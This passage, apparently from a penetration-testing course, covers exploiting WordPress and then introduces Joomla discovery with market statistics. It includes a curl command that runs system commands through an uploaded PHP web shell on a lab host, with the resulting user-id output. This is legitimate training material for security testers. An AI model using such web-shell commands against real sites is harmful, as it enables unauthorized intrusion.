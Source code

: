 ```shell
[x] Failed to execute PHP code...

```

The exploit as written may fail, but we can use `cURL` to execute commands using the uploaded web shell. We just need to append `?cmd=` after the `.php` extension to run commands which we can see in the exploit script.

```shell
curl -s http://blog.inlanefreight.local/wp-content/uploads/2021/08/uthsdkbywoxeebg-1629904090.8191.php?cmd=id

GIF689a;

uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

In this example, we would want to make sure to clean up the `uthsdkbywoxeebg-1629904090.8191.php` file and once again list it as a testing artifact in the appendices of our report.

* * *

## Moving On

As we have seen from the last two sections, WordPress presents a vast attack surface. During our careers as penetration testers, we will almost definitely encounter WordPress many times. We must have the skills to quickly footprint a WordPress installation and perform thorough manual and tool-based enumeration to uncover high-risk misconfigurations and vulnerabilities. If these sections on WordPress were interesting, check out the [Attacking WordPress module](https://academy.hackthebox.com/course/preview/hacking-wordpress) for more practice.


# Joomla - Discovery & Enumeration

* * *

[Joomla](https://www.joomla.org/), released in August 2005 is another free and open-source CMS used for discussion forums, photo galleries, e-Commerce, user-based communities, and more. It is written in PHP and uses MySQL in the backend. Like WordPress, Joomla can be enhanced with over 7,000 extensions and over 1,000 templates. There are up to 2.5 million sites on the internet running Joomla. Here are some interesting [statistics](https://websitebuilder.org/blog/joomla-statistics/) about Joomla:

- Joomla accounts for 3.5% of the CMS market share
- Joomla is 100% free and means "all together" in Swahili (phonetic spelling of "Jumla")
- The Joomla community has close to 700,000 in its online forums
- Joomla powers 3% of all websites on the internet, nearly 25,000 of the top 1 million sites worldwide (just 10% of the reach of WordPress)
- Some notable organizations that use Joomla include eBay, Yamaha, Harvard University, and the UK government
- Over the years, 770 different developers have contributed to Joomla

Joomla collects some anonymous [usage statistics](https://developer.joomla.org/about/stats.html) such as the breakdown of Joomla, PHP and database versions and server operating systems in use on Joomla installations. This data can be queried via their public [API](https://developer.joomla.org/about/stats/api.html).

